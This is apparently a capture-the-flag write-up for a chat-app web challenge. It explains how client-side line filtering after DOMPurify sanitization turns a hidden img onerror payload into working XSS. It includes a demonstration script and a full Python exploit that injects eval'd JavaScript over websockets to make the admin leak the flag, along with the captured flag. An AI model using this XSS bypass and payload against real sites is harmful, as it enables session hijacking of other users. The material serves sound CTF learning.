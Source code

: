 ```yaml
---
title: Bonk4Cash
solves: 15
points: 493
created: 2025-04-19T05:58
updated: 2025-04-20T20:27
tags:
  - xss
---
```


The client JS trusts the API so much it uses `innerHTML` to display the messages.

But the API is indeed secure, DOMPurify is used.

No known vulnerabilities in DOMPurify ...wait, the client is modifying the content after sanitization.

```js
if(resp.ok){
    const log = await resp.text();
    console.log(log);
    const filtered = log.split("\n").filter(msg => msg.split("]")[0].substring(1) === person).join("\n");
    chatlogbox.innerHTML = filtered;
}else{
    chatlogbox.innerHTML = "<br />Failed to load messages"
}
  ```

Let's try to exploit this, we trick `DOMPurify` into thinking that a malicious `img` tag is actually part of a innocent `h1`'s attributes, and it really is, but after being line-filtered by the client, that wrapper `h1` disappears and our `img` payload appears.

```js
const createDOMPurify = require('dompurify');
const { JSDOM } = require('jsdom');

const window = new JSDOM('').window;
const DOMPurify = createDOMPurify(window);

const chatMessages = [
    '[name] test<h1 lang="',
    '[name2] test<img src=1 onerror=\'/*',
    '[name2] */;alert(1)\'>">hello'
];
const person = 'name2';
const log = DOMPurify.sanitize(chatMessages.join("<br>\n"));
console.log("Sanitized log:");
console.log(log);
console.log("\n")

console.log("Filtered log:");
const filtered = log.split("\n").filter(msg => msg.split("]")[0].substring(1) === person).join("\n");
console.log(filtered);
```

```
Sanitized log:
[name] test<h1 lang="<br>
[name2] test<img src=1 onerror='/*<br>
[name2] */;alert(1)'>">hello</h1>


Filtered log:
[name2] test<img src=1 onerror='/*<br>
[name2] */;alert(1)'>">hello</h1>
```

And it worked!

## solve

With a working XSS on our hands the rest is super simple.

Just XSS the admin, get the flag by making the admin report the admin, then send it in chat via the admin account like a chad.

```python
import base64
import random
import time
import requests
import asyncio
import websockets

# origin = "localhost:8000"
origin = "44.197.178.240"
target = f"http://{origin}"

name1 = "kumo"+str(random.randint(0, 1000000))
name2 = "kumo"+str(random.randint(0, 1000000))
requests.post(f"{target}/clearchat")


def reg(username):
    s = requests.Session()
    r = s.post(f"{target}/register", data={"username": username})
    r.raise_for_status()
    return s


def chatkey(s):
    r = s.post(f"{target}/chatkey")
    r.raise_for_status()
    return r.text.strip()


def report(s, name):
    r = s.post(f"{target}/report/{name}")
    r.raise_for_status()
    return r.url


def spam_messages(chatkey1, chatkey2, payload):
    payload = base64.b64encode(payload.encode()).decode()

    async def chat_client():
        uri = f"ws://{origin}/chat"
        async with websockets.connect(uri) as ws2:
            async with websockets.connect(uri) as ws1:
                await ws1.send(chatkey1)
                await ws2.send(chatkey2)
                await ws2.send(f'*/;eval(atob(`{payload}`));\'>">p2')
                await ws2.send('p1<img src=1 onerror=\'/*')
                await asyncio.sleep(0.1)
                await ws1.send('payload starts<h1 lang="')
    asyncio.run(chat_client())


print(f"[*] Registering {name1} and {name2}")
s1 = reg(name1)
s2 = reg(name2)
chatkey1 = chatkey(s1)
chatkey2 = chatkey(s2)
chatkey3 = chatkey(s2)
print(f"[*] Sending payload to chat")
spam_messages(chatkey1, chatkey2, """
fetch("/chatkey",{method:"POST"}).then(r=>r.text()).then(chatkey=>{
    fetch("/report/admin",{method:"POST"}).then(r=>{
        console.log("yay", r.url);
        let ws = new WebSocket("/chat")
        ws.onopen = (event) => {
            ws.send(chatkey);
        }
        ws.onmessage = (event) => {
            console.log(`received ${event.data}`)
            if(event.data === "successfully authorized"){
                ws.send(r.url);
            }
        }
    }).catch(e=>console.log(e));
});
""")
print("[*] Checking payload")
print(requests.get(f"{target}/transcript").text)
print(f"[*] Reporting user {name2} to activate the payload")
print(report(s1, name2))
print("[*] Checking flag")
time.sleep(5)
print(requests.get(f"{target}/transcript").text)
```

```
[admin] http://localhost/?result=UMASS%7BAdm1n_g0T_B0nk3d_EfAv4k7r3dJgTcbjmp%7D<br>
```

```flag
UMASS{Adm1n_g0T_B0nk3d_EfAv4k7r3dJgTcbjmp}
```

